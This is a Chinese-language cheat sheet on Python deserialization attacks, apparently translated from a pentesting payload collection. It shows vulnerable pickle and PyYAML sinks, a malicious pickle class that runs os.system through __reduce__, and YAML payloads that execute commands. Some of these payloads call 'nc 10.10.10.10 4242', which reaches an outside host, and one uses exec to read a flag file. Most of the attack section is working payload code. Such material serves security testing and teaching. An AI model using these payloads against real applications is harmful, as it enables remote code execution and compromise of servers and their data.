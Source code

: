 # Python 反序列化

> Python 反序列化是将序列化的数据重新构造为 Python 对象的过程，通常使用 JSON、pickle 或 YAML 等格式完成。在 Python 中，pickle 模块是一个常用的工具，因为它可以序列化和反序列化复杂的 Python 对象，包括自定义类。

## 概要

* [工具](#工具)
* [方法论](#方法论)
    * [Pickle](#pickle)
    * [PyYAML](#pyyaml)
* [参考](#参考)

## 工具

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) - 用于攻击 Python 驱动应用程序的反序列化 RCE 攻击的有效载荷生成器，支持 pickle、PyYAML、ruamel.yaml 或 jsonpickle 模块。

## 方法论

在 Python 源代码中，查找以下漏洞点：

* `cPickle.loads`
* `pickle.loads`
* `_pickle.loads`
* `jsonpickle.decode`

### Pickle

以下代码是一个简单的示例，展示如何使用 `cPickle` 来生成一个 `auth_token`，它是序列化的 `User` 对象。
:warning: `import cPickle` 仅适用于 Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

当从用户输入加载令牌时，就会引入漏洞。

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 文档明确指出，切勿使用 Pickle 处理不受信任的数据源。下面创建一个恶意数据，它将在服务器上执行任意代码。

> pickle 模块对错误或恶意构造的数据不安全。永远不要从不受信任或未经身份验证的来源 unpickle 数据。

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

### PyYAML

YAML 反序列化是将 YAML 格式的数据转换回像 Python、Ruby 或 Java 这样的编程语言中的对象的过程。YAML（YAML Ain't Markup Language）因其人类可读性和支持复杂数据结构而广泛用于配置文件和数据序列化。

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

从 PyYAML 版本 6.0 开始，默认情况下 `load` 的加载器已切换到 SafeLoader，从而缓解了针对远程代码执行的风险。[PR #420 - 修复](https://github.com/yaml/pyyaml/issues/420)

现在易受攻击的漏洞点是 `yaml.unsafe_load` 和 `yaml.load(input, Loader=yaml.UnsafeLoader)`。

```py
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

## 参考

* [CVE-2019-20477 - 0Day YAML 反序列化攻击（PyYAML 版本 <= 5.1.2）- Manmeet Singh (@_j0lt) - 2020 年 6 月 21 日](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)
* [利用 Python 的 "pickle" 滥用 - Nelson Elhage - 2011 年 3 月 20 日](https://blog.nelhage.com/2011/03/exploiting-pickle/)
* [Python YAML 反序列化 - HackTricks - 2024 年 7 月 19 日](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
* [PyYAML 文档 - PyYAML - 2006 年 4 月 29 日](https://pyyaml.org/wiki/PyYAMLDocumentation)
* [Python 中的 YAML 反序列化攻击 - Manmeet Singh & Ashish Kukret - 2021 年 11 月 13 日](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)